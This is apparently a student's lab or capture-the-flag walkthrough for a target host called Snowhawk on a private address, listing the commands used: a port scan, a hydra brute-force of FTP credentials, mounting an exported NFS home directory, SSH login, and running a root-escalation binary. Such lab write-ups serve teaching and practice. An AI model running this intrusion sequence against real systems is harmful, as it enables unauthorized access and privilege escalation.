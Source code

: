 ﻿# Snowhawk 192.168.2.155
## Andrea Zonnekus 18758119

sudo nmap -Pn --script=safe -p- -sV -O -oN host 192.168.2.155

![](snowhawk_steps/Aspose.Words.2b03d7c3-c019-415e-acdb-b98d88021a5c.001.png)

![](snowhawk_steps/Aspose.Words.2b03d7c3-c019-415e-acdb-b98d88021a5c.002.png)

sudo hydra -l prator -P /usr/share/legion/wordlists/ftp-betterdefaultpasslist.txt ftp://192.168.2.155 -e nsr

![](snowhawk_steps/Aspose.Words.2b03d7c3-c019-415e-acdb-b98d88021a5c.003.png)

mkdir /tmp/prator

sudo mount -t nfs 192.168.2.155:/home/prator /tmp/prator

![](snowhawk_steps/Aspose.Words.2b03d7c3-c019-415e-acdb-b98d88021a5c.004.png)

ssh prator@192.168.2.155 -o HostKeyAlgorithms=+ssh-rsa

![](snowhawk_steps/Aspose.Words.2b03d7c3-c019-415e-acdb-b98d88021a5c.005.png)

./rootget

![](snowhawk_steps/Aspose.Words.2b03d7c3-c019-415e-acdb-b98d88021a5c.006.png)

id

![](snowhawk_steps/Aspose.Words.2b03d7c3-c019-415e-acdb-b98d88021a5c.007.png)



